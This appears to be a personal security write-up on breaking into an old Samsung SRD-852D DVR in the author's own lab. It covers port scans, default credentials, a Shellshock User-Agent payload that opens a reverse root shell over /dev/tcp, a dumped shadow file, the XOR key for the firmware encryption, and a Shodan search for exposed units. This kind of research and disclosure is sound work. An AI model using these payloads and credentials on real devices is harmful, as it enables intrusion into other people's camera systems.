

# Breaking Samsung DVR's Security

I found an old Samsung SRD-852D DVR powering some analog security cameras in my home. I got curious and decided to take a look at it. This is a write-up of my findings.

## Initial Recon

I started by plugging the device into a VLAN with no internet access. I then ran `nmap` to see what ports were open. I found that the device was running a few services:

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
554/tcp open  rtsp
555/tcp open  dsf
```

Accessing the web interface (running `lighttpd/1.4.26`) at `http://[ip]` showed a login page. I tried the default credentials (`admin:4321`) and they worked. I was greeted with an old, broken web interface. I couldn't see the video feed as it depended on Java applets.

I probed the SSH version and got: `SSH-1.99-OpenSSH_4.4`, but didn't have much luck with exploiting it. It offered `ssh-dss` and `ssh-rsa` as key exchange algorithms.

Nothing interesting was found on ports `111`, `554`, and `555`, other than the RTSP feed on port `554`.

## Reverse Root Shell with Shellshock

Looking further into the web interface, I saw various requests to `/cgi-bin/` endpoints. I set the `User-Agent` header to `() { :; }; /bin/bash -c "bash -i >& /dev/tcp/[my-ip]/6666 0>&1"` and sent a request to `/cgi-bin/webviewer`. Surprisingly, I got a reverse shell as `root` on my listener!

The webserver was running as `root`, so I got full access to the device. All services necessary for the DVR were in `/root`.

The device was on a 32-bit PowerPC architecture, running a basic Linux system on the `2.6.30.9` kernel with [RDB (reliable datagram sockets)](https://en.wikipedia.org/wiki/Reliable_Datagram_Sockets). The device had a `bash` shell.

Here is `/etc/shadow` (note the old `des_crypt` hash for root!):
```
root:En813l8gAi3R2:13649:0:99999:7:::
bin:*:13649:0:99999:7:::
daemon:*:13649:0:99999:7:::
sys:*:13649:0:99999:7:::
adm:*:13649:0:99999:7:::
lp:*:13649:0:99999:7:::
sync:*:13649:0:99999:7:::
shutdown:*:13649:0:99999:7:::
halt:*:13649:0:99999:7:::
mail:*:13649:0:99999:7:::
news:*:13649:0:99999:7:::
uucp:*:13649:0:99999:7:::
operator:*:13649:0:99999:7:::
games:*:13649:0:99999:7:::
ftp:*:13649:0:99999:7:::
man:*:13649:0:99999:7:::
www:*:13649:0:99999:7:::
sshd:*:13649:0:99999:7:::
proxy:*:13649:0:99999:7:::
telnetd:*:13649:0:99999:7:::
backup:*:13649:0:99999:7:::
postfix:*:13649:0:99999:7:::
ais:*:13649:0:99999:7:::
ntp:*:13649:0:99999:7:::
nobody:*:13649:0:99999:7:::
```

I fed the hash into `hashcat` but had no luck cracking it. With more time, I could have found a way to recover the password, although it wasn't necessary, as I could have just reset it by running `passwd`.

At this point, there was no need to go further. I had full access to the device and could do whatever I wanted with it.

## Decrypting Firmware Update Files

I found a firmware update file from the vendor's website. I have uploaded the file here ([srd852_1652_v1_36_140127.zip](./srd852_1652_v1_36_140127.zip)).

Unzipping the file, I found release notes and a `.img` file. Running `binwalk -e` on the `.img` file showed a gzip archive. Inside, the archive contained a few files:

- `shr-detroit_header.dat`
- `ve_mproject_add_header.dtb`
- `ve_uRamdisk_add_header`
- `ve_uImage_add_header`
- `ve_u-boot_add_header.img`
- `uptools/`
	- `swupgrader`
	- `sw_ver`
	- `upgrade_gui`
- `ve_logo_add_header.img`

Looking inside `uptools/`, I found two binaries, `swupgrader` and `upgrade_gui`.

`file` output for `swupgrader`:
```
swupgrader: ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), dynamically linked, interpreter /lib/ld.so.1, for GNU/Linux 2.6.18, stripped
```

`file` output for `upgrade_gui`:
```
upgrade_gui: ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), dynamically linked, interpreter /lib/ld.so.1, for GNU/Linux 2.6.18, with debug_info, not stripped
```

I did not find much that was interesting in these binaries. `upgrade_gui` did not have debug symbols stripped; its symbols (from `objdump -s upgrade_gui`) can be found in [upgrade_gui.objdump](./upgrade_gui.objdump).

All of these files except for the ones in `uptools/` were encrypted in a proprietary format, with the same bytes at the beginning of each file:
```
456e 6372 7970 7446 696c 6546 6f72 6d61 EncryptFileForma
740a [encrypted data]					t.
```

Looking through the encrypted files in a hex editor, I found that there were many repetitions of the same bytes, which is always a bad sign. At the end of some of the files, the following 16 bytes were repeated:
```
6212 2b0f 3a1a 5dd0 f5ac 261f df24 b99a  b.+.:.]...&..$..
```

I wrote a simple Perl script to XOR the encrypted files with this key to decrypt them. The script can be found in [decrypt.pl](./decrypt.pl). After a few tries, it worked! I was able to decrypt the files:
```bash
perl decrypt.pl --file ve_uRamdisk_add_header > ve_uRamdisk_add_header.decrypted
```

Considering that the firmware updates are unsigned, an attacker could easily modify the firmware to include a backdoor and flash it onto the device. The device would happily accept the modified firmware and run it.

I found a gzip archive containing an `ext2` filesystem in `ve_uRamdisk_add_header`. I extracted the filesystem and found a very similar filesystem to the one on the live device. I uploaded the filesystem here ([ramdisk.tar.gz](./ramdisk.tar.gz)).

I found `vmlinux` in `ve_uImage_add_header`. I did not spend much time looking into the other files.

## Other Findings

Ignoring the fact that the device was running everything as `root`, I found a few other things while briefly probing the device:

### Cookies

The web interface stored the session and credentials in an insecure, non-`HttpOnly` cookie:
```
ID=YWRtaW4=&PWD=NDMyMQ==&SessionID=0.46702777430694975
```

The `ID` and `PWD` fields were base64 encoded. I could easily decode them to get the credentials: `admin:4321`.

### Authentication

Considering the old age of the device, it was no surprise that the credentials were transmitted in plaintext over HTTP.

### HTTPS Support

HTTPS support was enabled in the latest firmware update I found, but **using the same exact self-signed certificate for all devices**!

### Hardcoded South Korean DNS Server

The device had a hardcoded DNS server `168.126.63.1` in `/etc/resolv.conf`, operated by Kornet, a South Korean ISP.

### Unnecessary Size of the Device

The interior of the device was tiny, and the rest of the space was taken up by the case, with a lot of empty space in between! The device was unnecessarily large.


>Please excuse the dust :)

## Closing Thoughts

This was a fun learning experience.

The device was old and had many security issues. The vendor had stopped supporting it, but you'll find many of these devices [**publicly accessible on the internet**](https://www.shodan.io/search?query=Web+Viewer+for+Samsung+DVR) by searching for `Web Viewer for Samsung DVR` (the title of the web interface).

Many of these are available on the internet as the DVR provides a DDNS feature, allowing users to access their cameras from anywhere. This is a huge security risk.